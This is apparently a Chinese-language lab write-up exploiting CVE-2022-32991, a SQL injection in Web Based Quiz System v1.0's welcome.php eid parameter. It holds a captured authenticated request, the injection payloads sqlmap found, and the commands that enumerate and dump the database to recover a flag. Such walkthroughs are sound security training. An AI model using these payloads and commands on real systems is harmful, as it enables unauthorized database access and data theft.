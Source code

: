 ```yaml
---
title: "CVE-2022-32991"
date: 2024-07-25
tags: ["春秋云镜","CVE","SQLi"]
draft: false
---
```


<https://nvd.nist.gov/vuln/detail/CVE-2022-32991>

## Description 

Web Based Quiz System v1.0 was discovered to contain a SQL injection vulnerability via the eid parameter at welcome.php

## 演示

环境: [春秋云镜 免费空间>CVE-2022-32991](https://yunjing.ichunqiu.com/cve/detail/750)

### 1.登录

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/1.webp)

尝试注册用户

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/2.webp)

### 2.验证

<http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e'&n=1&t=10>

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/3.webp)

### 3.利用

因为要在已登录状态注入，需要带上cookie

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/4.webp)

保存为750，在url地址参数`eid=5b141f1e8399e`后添加`*`，让sqlmap指定位置注入

```http

GET /welcome.php?q=quiz&step=2&eid=5b141f1e8399e*&n=1&t=10 HTTP/1.1
Host: eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1721788611,1721803958; PHPSESSID=cnam4bkgd0a0so8md1bqj6qbnn
Connection: close
```

使用sqlmap注入

```bash
$ sqlmap -r 750
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' AND 6069=6069 AND 'sWKv'='sWKv&n=1&t=10

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' OR (SELECT 8600 FROM(SELECT COUNT(*),CONCAT(0x7170767871,(SELECT (ELT(8600=8600,1))),0x716a627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'OiEz'='OiEz&n=1&t=10

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' AND (SELECT 1465 FROM (SELECT(SLEEP(5)))egvA) AND 'lzIQ'='lzIQ&n=1&t=10

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' UNION ALL SELECT NULL,NULL,CONCAT(0x7170767871,0x51654f6951587a78465a5169726258774f6a646d644379745761756a4547746d794d4f7256734c6b,0x716a627871),NULL,NULL-- -&n=1&t=10
---
[23:26:07] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.2.20
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
$ sqlmap -r 750 --current-db
current database: 'ctf'
$ sqlmap -r 750 --tables -D ctf
[9 tables]
+-----------+
| admin     |
| history   |
| options   |
| rank      |
| user      |
| answer    |
| flag      |
| questions |
| quiz      |
+-----------+
$ sqlmap -r 750 --dump -D ctf -T flag
Database: ctf
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{506b496e-2e73-473f-a206-ea9dba080930} |
+--------------------------------------------+
```

